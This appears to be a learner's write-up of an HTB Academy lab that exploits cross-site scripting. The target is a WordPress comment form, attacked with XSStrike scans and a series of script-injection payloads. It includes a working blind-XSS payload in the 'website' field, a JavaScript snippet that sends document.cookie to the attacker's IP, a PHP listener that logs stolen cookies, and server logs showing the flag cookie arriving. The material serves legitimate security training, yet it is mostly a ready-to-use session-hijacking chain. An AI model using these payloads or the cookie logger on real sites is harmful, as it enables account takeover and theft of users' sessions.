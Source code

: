 # Skills Assessment - CROSS-SITE SCRIPTING (XSS)  

## Identify a user-input field that is vulnerable to an XSS vulnerability

http://10.129.143.89/assessment/

POST /assessment/wp-comments-post.php HTTP/1.1
Host: 10.129.143.89
Content-Length: 92
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.143.89
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.143.89/assessment/index.php/2021/06/11/welcome-to-security-blog/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

comment=a&author=a&email=aa.com&url=a&submit=Post+Comment&comment_post_ID=8&comment_parent=0


Error: Please enter a valid email address.


POST /assessment/wp-comments-post.php HTTP/1.1
Host: 10.129.143.89
Content-Length: 99
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.129.143.89
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.129.143.89/assessment/index.php/2021/06/11/welcome-to-security-blog/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close

comment=a&author=a&email=aa%40toto.com&url=a&submit=Post+Comment&comment_post_ID=8&comment_parent=0

git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py

python xsstrike.py -u "http://10.129.143.89/assessment/index.php/2021/06/11/welcome-to-security-blog/?comment=a&author=a&email=aa%40toto.com&url=a&submit=Post+Comment&comment_post_ID=8&comment_parent=0"

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] Potentially vulnerable objects found 
------------------------------------------------------------
2   ( Element.prototype.matches && Element.prototype.closest && window.NodeList && NodeList.prototype.forEach ) || document.write( '<script src="http://10.129.143.89/assessment/wp-content/themes/twentytwentyone/assets/js/polyfills.js?ver=1.3"></scr' + 'ipt>' );
2   	/(trident|msie)/i.test(navigator.userAgent)&&document.getElementById&&window.addEventListener&&window.addEventListener("hashchange",(function(){var t,e=location.hash.substring(1);/^[A-z0-9_-]+$/.test(e)&&(t=document.getElementById(e))&&(/^(?:a|select|input|button|textarea)$/i.test(t.tagName)||(t.tabIndex=-1),t.focus())}),!1);
------------------------------------------------------------
[+] WAF Status: Offline 
[!] Testing parameter: comment 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[-] No vectors were crafted. 
[!] Testing parameter: author 
[-] No reflection found 
[!] Testing parameter: email 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[-] No vectors were crafted. 
[!] Testing parameter: url 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[-] No vectors were crafted. 
[!] Testing parameter: submit 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[-] No vectors were crafted. 
[!] Testing parameter: comment_post_ID 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[-] No vectors were crafted. 
[!] Testing parameter: comment_parent 
[!] Reflections found: 1 
[~] Analysing reflections 
[~] Generating payloads 
[-] No vectors were crafted. 

python xsstrike.py -u "http://10.129.143.89/assessment/index.php/2021/06/11/welcome-to-security-blog/?comment=a"

--> Failed

python xsstrike.py -u "http://10.129.143.89/assessment/?s=aa"

	XSStrike v3.1.5

[~] Checking for DOM vulnerabilities 
[+] Potentially vulnerable objects found 
------------------------------------------------------------
2   ( Element.prototype.matches && Element.prototype.closest && window.NodeList && NodeList.prototype.forEach ) || document.write( '<script src="http://10.129.143.89/assessment/wp-content/themes/twentytwentyone/assets/js/polyfills.js?ver=1.3"></scr' + 'ipt>' );
2   	/(trident|msie)/i.test(navigator.userAgent)&&document.getElementById&&window.addEventListener&&window.addEventListener("hashchange",(function(){var t,e=location.hash.substring(1);/^[A-z0-9_-]+$/.test(e)&&(t=document.getElementById(e))&&(/^(?:a|select|input|button|textarea)$/i.test(t.tagName)||(t.tabIndex=-1),t.focus())}),!1);
------------------------------------------------------------
[+] WAF Status: Offline 
[!] Testing parameter: s 
[!] Reflections found: 6 
[~] Analysing reflections 
[~] Generating payloads 
[!] Payloads generated: 4608 
------------------------------------------------------------
[+] Payload: <d3v%0dOnpOInTeREnTeR%0a=%0aa=prompt,a()%0dx//v3dm0s 
[!] Efficiency: 93 
[!] Confidence: 10 

<script src=http://10.10.15.46:8081/search></script>

--> failed

'><script src=http://10.10.15.46:8081/search></script>

--> failed

"><script src=http://10.10.15.46:8081/search></script>

--> failed

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://10.10.15.46:8081/search\';document.body.appendChild(a)')

--> failed

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//10.10.15.46:8081/search");a.send();</script>

--> failed

<script>$.getScript("http://10.10.15.46:8081/search")</script>

--> failed

( Element.prototype.matches && Element.prototype.closest && window.NodeList && NodeList.prototype.forEach ) || document.write( '<script src="http://10.10.15.46:8081/comment"></scr' + 'ipt>' );

--> Failed

<d3v%0dOnpOInTeREnTeR%0a=%0aa=%3Cscript%20src%3Dhttp%3A%2F%2F10.10.15.46%3A8081%2Fsearch%3E%3C%2Fscript%3E
,a()%0dx//v3dm0s 

%3Cscript%20src%3Dhttp%3A%2F%2F10.10.15.46%3A8081%2Fsearch%3E%3C%2Fscript%3E

comment=a&author=a&email=aa%40toto.com&url=a&submit=Post+Comment&comment_post_ID=8&comment_parent=0


"><script src=http://10.10.15.46:8081/name></script>

--> Failed

python xsstrike.py -u "http://10.129.143.89/assessment/index.php/2021/06/11/welcome-to-security-blog/" --data "website=a"

--> Failed


"><script src=http://10.10.15.46:8081/website></script>

[Thu Dec 28 12:14:16 2023] PHP 7.4.33 Development Server (http://0.0.0.0:8081) started
[Thu Dec 28 12:36:05 2023] 10.129.143.89:33824 Accepted
[Thu Dec 28 12:36:05 2023] 10.129.143.89:33824 [200]: GET /website
[Thu Dec 28 12:36:05 2023] 10.129.143.89:33824 Closing

website is the vulnerable parameter

## Find a working XSS payload that executes JavaScript code on the target's browser

On our web server :

mkdir /tmp/tmpserver
cd /tmp/tmpserver
vi script.js

new Image().src='http://10.10.15.46:8081/index.php?c='+document.cookie;

vi index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

sudo php -S 0.0.0.0:8081

## Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag


"><script src=http://10.10.15.46:8081/script.js></script>

[Thu Dec 28 12:39:42 2023] PHP 7.4.33 Development Server (http://0.0.0.0:8081) started
[Thu Dec 28 12:40:45 2023] 10.129.143.89:33922 Accepted
[Thu Dec 28 12:40:45 2023] 10.129.143.89:33922 [200]: (null) /script.js
[Thu Dec 28 12:40:45 2023] 10.129.143.89:33922 Closing
[Thu Dec 28 12:40:45 2023] 10.129.143.89:33924 Accepted
[Thu Dec 28 12:40:45 2023] 10.129.143.89:33924 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1703767245;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Thu Dec 28 12:40:45 2023] 10.129.143.89:33924 Closing







